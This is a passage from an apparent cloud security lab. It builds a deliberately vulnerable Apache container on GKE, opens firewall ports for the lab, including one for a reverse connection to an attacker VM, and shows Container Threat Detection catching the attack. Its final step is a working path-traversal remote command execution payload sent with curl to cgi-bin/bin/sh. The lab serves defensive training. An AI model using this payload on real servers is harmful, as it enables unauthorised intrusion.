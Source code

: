 20. Create a new VPC firewall rule allowing connection to the `NODE_PORT` and try reaching it using the curl command:
    

```apache
gcloud compute firewall-rules create apache-test-service-fw \
--allow tcp:${NODE_PORT}

curl http://${NODE_IP}:${NODE_PORT}
```

You should see the text representation of the start web page of our vulnerable Apache server:

```xml
<html><body><h1>It works!</h1></body></html>
```

During the exploitation phase we will need to build a reverse connection from the Apache container to the attacker machine.

21. Create one more firewall rule for making this connection to the port 8888 possible:
    

```apache
gcloud compute firewall-rules create apache-test-rvrs-cnnct-fw --allow tcp:8888
```

**Note:** Port 8888 is selected randomly, later on the attacker-instance we will launch a server, listening on this port.

Now that you have prepared the vulnerable infrastructure, you can start exploiting the vulnerable software. Please note that from now on you will not change any configuration of the application.

In the next task, you will behave as an intruder from the internet-based VM workstation which has access to the URL `http://${NODE_IP}:${NODE_PORT}`. Here is a diagram that demonstrates our configuration:

![1b859b49291b1b12.png](https://cdn.qwiklabs.com/RoyH%2BRdCyoAvFL36uQ39r19nWp%2B3o%2FEnV9G8Sldem2w%3D align="left")

We run the "curl" command on the Attacker instance and connect to the Apache web server. In turn, the Apache web server returns its main web page.

Click **Check my progress** to verify the objective.

Deploy a private GKE cluster

**Check my progress**

## **Task 5. Exploit a web server and detect issues with Container Threat Detection**

1. Run the following command to try and exploit our web server:
    

```apache
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"
```
